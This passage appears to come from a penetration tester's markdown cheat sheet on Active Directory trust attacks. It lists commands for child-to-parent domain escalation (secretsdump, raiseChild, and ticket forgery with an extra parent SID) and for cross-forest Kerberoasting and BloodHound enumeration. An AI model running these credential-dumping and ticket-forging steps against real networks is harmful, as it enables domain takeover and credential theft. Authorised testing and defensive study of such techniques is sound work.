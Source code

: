    ```powershell
2. Add to `/etc/resolv.conf`
	1. `domain [PARENT_DOMAIN]`
	2. `nameserver [PARENT_DC_IP]`
3. If you are only domain admin, but not domain administrator become one:
   ```bash
   secretsdump.py [CHILD_DC_AUTH] -just-dc-user [CHILD_BASE_NAME]/Administrator
	```
4. Go to parent
	- `{bash}raiseChild.py -hashes [ADMIN_HASH] [CHILD_DOMAIN]/Administrator`
	- Manually:
	  1. Get SIDs from Bloodhound of child and parent
	  2. Get AESKey 256 from `secretsdump`
	  3. `{bash}ticketer.py -aeskey [AESKEY] -domain [DOMAIN] -domain-sid [CHILD_SID] -extra-sid [PARENT_SID] Administrator`
	  4. Use the generated ticket
	     `{bash}KRB5CCNAME="Administrator.ccache" secretsdump.py -k -no-pass "target_domain_fqdn/Administrator@domain_controller"`

### Cross-Forest
1. Get `DC2_IP` : `dig A [FOREST2_DOMAIN] @[DC1_IP]` -> probably reachable by any machine 
2. `addhost [FOREST2_DC_IP] "[FOREST2_DC_FQDN] [FOREST2_DOMAIN]"`
3. Add to `etc/resolv.conf` 
	- `domain [FOREST2_DOMAIN]`
	- `nameserver [FOREST2_DC_IP]`
4. KerbeRoast Attack
   ```bash
   GetUserSPNs.py [FOREST1_AUTH] -request -target-domain [FOREST2_DOMAIN]
	```
	- Crack hashes
5. Foreign Membership
	- Generate two zip files and upload them to Bloodhound
	  ```bash
	  bloodhound-python [AUTH_FOREST1] -d [FOREST1] -dc [FOREST1_DC] -c All; bloodhound-python [AUTH_FOREST1_EMAIL] -d [FOREST2] -dc [FOREST2_DC] -c All
		```
	- Analysis -`Dangerous Rights -> Foreign Domain Group Membership` Queries → Abuse Membership